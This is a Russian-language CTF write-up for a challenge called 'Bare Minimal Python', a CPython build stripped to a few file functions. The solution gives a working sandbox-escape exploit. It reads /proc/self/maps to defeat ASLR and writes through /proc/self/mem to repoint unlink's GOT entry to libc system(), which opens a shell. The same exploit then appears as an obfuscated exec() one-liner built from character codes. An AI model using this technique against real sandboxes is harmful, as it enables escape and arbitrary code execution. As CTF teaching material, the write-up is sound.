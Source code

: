 # Название: Bare Minimal Python
### Описание
САМЫЙ ПЕРЕДОВОЙ ПИТОН ИНТЕРПРЕТАТОР! САМАЯ БЫСТРАЯ СКОРОСТЬ ВЫПОЛНЕНИЯ! САМАЯ НАДЁЖНАЯ ЗАЩИТА (а вот тут следовало бы выяснить поподробнее)
#### Примечание 1: Для получения флага вам нужно запустить бинарник `/give_me_flag`. Реверсить и всячески исследовать его не надо, это простая "читалка" единственного файла с флагом, на котором стоит SUID бит.
#### Примечание 2: В Dockerfile зафиксирована версия базового образа через хеш sha256 (`ubuntu@sha256:...`). Это гарантирует возможность получить такую же среду, как на нашем сервере.
#### Примечание 3: xinetd - служебный файл, необходимый для развертывания на сервере. В нём нет уязвимостей.

### Решение
Был изменён файл posixmodule.c, а также удалены все модули, кроме encodings, т.к. без него Python запускаться отказался.  
Также "заблокированы" (не вносятся в итоговую сборку, т.к. не присутствуют в файле `posix_methods`) все функции из модуля `os`, кроме:
```c
// I EVEN DISABLED THOSE SHADY METHODS
// ONLY BARE MINIMUM REMAINS
static PyMethodDef posix_methods[] = {

    OS_LISTDIR_METHODDEF
    OS_STAT_METHODDEF
    OS_FSPATH_METHODDEF
    OS_MKDIR_METHODDEF
    OS_OPEN_METHODDEF
    OS_CLOSE_METHODDEF
    OS_REPLACE_METHODDEF
    OS_SCANDIR_METHODDEF
    OS_UNLINK_METHODDEF
    OS_RMDIR_METHODDEF
    OS_LSTAT_METHODDEF
    OS_GETCWD_METHODDEF
    {NULL,              NULL}            /* Sentinel */
};
```
Также по всем методам, позволяющим запускать процессы, расставлены return-ы в самом начале с комментариями вида "так просто не получится" (но это не играет никакого значения, т.к. данные методы запустить не удастся из-за отсутствия в итоговой сборке).
```
static PyObject *
os_execve_impl(PyObject *module, path_t *path, PyObject *argv, PyObject *env)
/*[clinic end generated code: output=ff9fa8e4da8bde58 input=626804fa092606d9]*/
{
    return 0xCAFE; // no way bro
```
Негусто, но можно переписать GOT таблицу, тем самым подменив функцию из libc на нужную (python будет "думать", что вызывается напр. ф-ция unlink, а по факту вызовется system)
```python
m=open('/proc/self/maps','r') # to bypass ASLR
map=m.read().splitlines(keepends=False)
m.close()
for st in map:
    if '/usr/lib/x86_64-linux-gnu/libc.so.6' in st: # first libc str
        RES = st
        break

BASE_LIBC = int(RES.split('-')[0], 16) # libc base
ADDR_SYSTEM = 0x7ff997dedd60 - 0x7ff997d9d000 + BASE_LIBC

BASE_GOT = int(map[0].split('-')[0], 16) # SYSTEM LIBC
ADDR_GOT = 0x5578ea82ca50 - 0x5578ea397000 + BASE_GOT

print('got(unlink):', hex(ADDR_GOT), 'system:', hex(ADDR_SYSTEM))

import os
f = open('/proc/self/mem','wb')
f.seek(ADDR_GOT) # seek to chdir
f.write((ADDR_SYSTEM).to_bytes(8,'little')) # mock unlink with system libc func
f.close()
os.unlink("/bin/sh") # fake unlink (now points to system)
```


Однострочник для избежания проблем со вставкой табуляции:
```
exec(''.join([chr(q) for q in [109,61,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,97,112,115,39,44,39,114,39,41,32,35,32,116,111,32,98,121,112,97,115,115,32,65,83,76,82,10,109,97,112,61,109,46,114,101,97,100,40,41,46,115,112,108,105,116,108,105,110,101,115,40,107,101,101,112,101,110,100,115,61,70,97,108,115,101,41,10,109,46,99,108,111,115,101,40,41,10,102,111,114,32,115,116,32,105,110,32,109,97,112,58,10,32,32,32,32,105,102,32,39,47,117,115,114,47,108,105,98,47,120,56,54,95,54,52,45,108,105,110,117,120,45,103,110,117,47,108,105,98,99,46,115,111,46,54,39,32,105,110,32,115,116,58,32,35,32,102,105,114,115,116,32,108,105,98,99,32,115,116,114,10,32,32,32,32,32,32,32,32,82,69,83,32,61,32,115,116,10,32,32,32,32,32,32,32,32,98,114,101,97,107,10,10,66,65,83,69,95,76,73,66,67,32,61,32,105,110,116,40,82,69,83,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,108,105,98,99,32,98,97,115,101,10,65,68,68,82,95,83,89,83,84,69,77,32,61,32,48,120,55,102,102,57,57,55,100,101,100,100,54,48,32,45,32,48,120,55,102,102,57,57,55,100,57,100,48,48,48,32,43,32,66,65,83,69,95,76,73,66,67,10,10,66,65,83,69,95,71,79,84,32,61,32,105,110,116,40,109,97,112,91,48,93,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,83,89,83,84,69,77,32,76,73,66,67,10,65,68,68,82,95,71,79,84,32,61,32,48,120,53,53,55,56,101,97,56,50,99,97,53,48,32,45,32,48,120,53,53,55,56,101,97,51,57,55,48,48,48,32,43,32,66,65,83,69,95,71,79,84,10,10,112,114,105,110,116,40,39,103,111,116,40,117,110,108,105,110,107,41,58,39,44,32,104,101,120,40,65,68,68,82,95,71,79,84,41,44,32,39,115,121,115,116,101,109,58,39,44,32,104,101,120,40,65,68,68,82,95,83,89,83,84,69,77,41,41,10,10,105,109,112,111,114,116,32,111,115,10,102,32,61,32,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,101,109,39,44,39,119,98,39,41,10,102,46,115,101,101,107,40,65,68,68,82,95,71,79,84,41,32,35,32,115,101,101,107,32,116,111,32,99,104,100,105,114,10,102,46,119,114,105,116,101,40,40,65,68,68,82,95,83,89,83,84,69,77,41,46,116,111,95,98,121,116,101,115,40,56,44,39,108,105,116,116,108,101,39,41,41,32,35,32,109,111,99,107,32,117,110,108,105,110,107,32,119,105,116,104,32,115,121,115,116,101,109,32,108,105,98,99,32,102,117,110,99,10,102,46,99,108,111,115,101,40,41,10,111,115,46,117,110,108,105,110,107,40,34,47,98,105,110,47,115,104,34,41,32,35,32,102,97,107,101,32,117,110,108,105,110,107,32,40,110,111,119,32,112,111,105,110,116,115,32,116,111,32,115,121,115,116,101,109,41]]))
```
